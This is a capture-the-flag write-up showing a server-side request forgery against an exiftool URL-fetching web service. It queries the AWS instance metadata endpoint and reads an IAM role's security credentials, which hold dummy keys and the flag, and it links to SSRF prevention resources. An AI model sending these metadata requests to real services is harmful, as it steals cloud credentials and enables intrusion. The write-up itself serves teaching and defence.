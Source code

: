 This webservice returns `exiftool` output from files through an URL or upload.

![image](verymeta1.png)

The challenge description mentions that the website is "hosted" with [ec2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/concepts.html). As with the challenge title and theme of the challenge, the challenge most likely involves [instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html).

> The IP address 169.254.169.254 is a link-local address and is valid only from the instance.

We try inputting `http://169.254.169.254/latest/meta-data/`:

![image](verymeta2.png)

![image](verymeta3.png)

The image does not load however data is still returned. Decoded base64:

```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
hostname
iam/info
iam/security-credentials
iam/security-credentials/super-secret-admin-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
...
```

We are interested in finding information about [IAM (Identity and Access Management)](https://docs.amazonaws.cn/en_us/IAM/latest/UserGuide/introduction.html) which holds information about users. We try requesting `http://169.254.169.254/latest/meta-data/iam/security-credentials/super-secret-admin-role`:

```json
{
	"Code": "Success",
	"LastUpdated": "2020-04-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "12345678901",
	"SecretAccessKey": "v/12345678901",
	"Token": "flag{rip_cap1}",
	"Expiration": "2020-04-02T00:49:51Z"
}
```

**Flag**: `flag{rip_cap1}`

This challenge was based off of the [Capital One Breach](https://github.com/avishayil/caponeme).

This challenge was an example of a server-side request forgery vulnerability. For more information and how to prevent see
[here](https://portswigger.net/web-security/ssrf).

Additional Reading:

- [https://www.emergingdefense.com/blog/2019/1/16/abusing-aws-metadata-service](https://www.emergingdefense.com/blog/2019/1/16/abusing-aws-metadata-service)
- [https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af](https://www.emergingdefense.com/blog/2019/1/16/abusing-aws-metadata-service)
